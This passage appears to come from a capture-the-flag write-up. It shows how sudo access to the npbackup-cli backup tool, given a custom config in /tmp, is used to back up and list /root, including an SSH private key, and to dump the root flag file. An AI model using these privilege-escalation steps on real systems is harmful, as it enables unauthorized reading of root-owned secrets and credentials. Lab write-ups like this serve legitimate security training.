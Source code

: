 
We do a backup with new configuration:
```bash
sudo /usr/local/bin/npbackup-cli -c /tmp/new_npbackup.conf -b --force
```

We see what files and directories have been backed up:
```bash
sudo /usr/local/bin/npbackup-cli -c /tmp/new_npbackup.conf --ls
```
```
sudo /usr/local/bin/npbackup-cli -c /tmp/test.conf --ls
2025-08-18 23:10:32,488 :: INFO :: npbackup 3.0.1-linux-UnknownBuildType-x64-legacy-public-3.8-i 2025032101 - Copyright (C) 2022-2025 NetInvent running as root
2025-08-18 23:10:32,516 :: INFO :: Loaded config 09F15BEC in /tmp/test.conf
2025-08-18 23:10:32,526 :: INFO :: Showing content of snapshot latest in repo default
2025-08-18 23:10:34,716 :: INFO :: Successfully listed snapshot latest content:
snapshot e9238d22 of [/root] at 2025-08-18 23:10:27.600994831 +0000 UTC by root@codetwo filtered by []:
/root
/root/.bash_history
/root/.bashrc
/root/.cache
/root/.cache/motd.legal-displayed
/root/.local
/root/.local/share
/root/.local/share/nano
/root/.local/share/nano/search_history
/root/.mysql_history
/root/.profile
/root/.python_history
/root/.sqlite_history
/root/.ssh
/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.vim
/root/.vim/.netrwhist
/root/root.txt
/root/scripts
/root/scripts/backup.tar.gz
/root/scripts/cleanup.sh
/root/scripts/cleanup_conf.sh
/root/scripts/cleanup_db.sh
/root/scripts/cleanup_marco.sh
/root/scripts/npbackup.conf
/root/scripts/users.db
```

We check the root flag file content:
```bash
sudo /usr/local/bin/npbackup-cli -c /tmp/new_npbackup.conf --dump /root/root.txt
```

```
root flag value
```
